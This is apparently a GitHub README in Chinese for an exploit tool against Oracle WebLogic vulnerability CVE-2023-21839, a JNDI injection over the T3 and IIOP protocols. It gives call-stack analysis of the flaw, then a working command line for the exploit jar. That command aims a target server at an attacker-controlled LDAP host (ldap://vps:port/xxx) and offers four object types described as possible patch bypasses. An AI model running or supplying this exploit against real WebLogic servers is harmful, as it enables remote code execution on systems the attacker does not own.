

# CVE-2023-21839

## 分析

该漏洞是因为通过t3或iiop协议绑定了对象之后调用lookup或list方法的时候触发了绑定对象的getReferent方法



调用栈 t3协议的

```
getObjectInstance:96, WLNamingManager (weblogic.jndi.internal)
resolveObject:377, ServerNamingNode (weblogic.jndi.internal)
resolveObject:856, BasicNamingNode (weblogic.jndi.internal)
lookup:209, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:667, BasicServerRef (weblogic.rmi.internal)
invoke:230, ClusterableServerRef (weblogic.rmi.cluster)
run:522, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:518, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)
```

iiop协议的

```
getObjectInstance:96, WLNamingManager (weblogic.jndi.internal)
resolveObject:377, ServerNamingNode (weblogic.jndi.internal)
resolveObject:856, BasicNamingNode (weblogic.jndi.internal)
lookup:209, BasicNamingNode (weblogic.jndi.internal)
lookup:254, WLEventContextImpl (weblogic.jndi.internal)
lookup:412, WLContextImpl (weblogic.jndi.internal)
lookup:411, InitialContext (javax.naming)
resolveObject:454, NamingContextImpl (weblogic.corba.cos.naming)
resolve_any:360, NamingContextImpl (weblogic.corba.cos.naming)
_invoke:108, _NamingContextAnyImplBase (weblogic.corba.cos.naming)
invoke:249, CorbaServerRef (weblogic.corba.idl)
invoke:230, ClusterableServerRef (weblogic.rmi.cluster)
run:522, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:518, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)
```

经过简单的挖掘，挖掘到其他的对象也可以触发。

## 工具

```
java -jar CVE-2023-21839.jar obj 127.0.0.1 7001 ldap://vps:port/xxx
obj 选项支持4种 maybe can bypass!
foreignOpaqueRef,foreignOpaqueRef2,AggtableOpaqueRef,linkRef

eg:
java -jar CVE-2023-21839.jar foreignOpaqueRef 127.0.0.1 7001 ldap://vps:port/xxx
```


解决了iiop net网络的问题

https://firebasky.github.io/2023/01/18/Solve-the-problem-of-iiop-using-net-network-in-webLogic/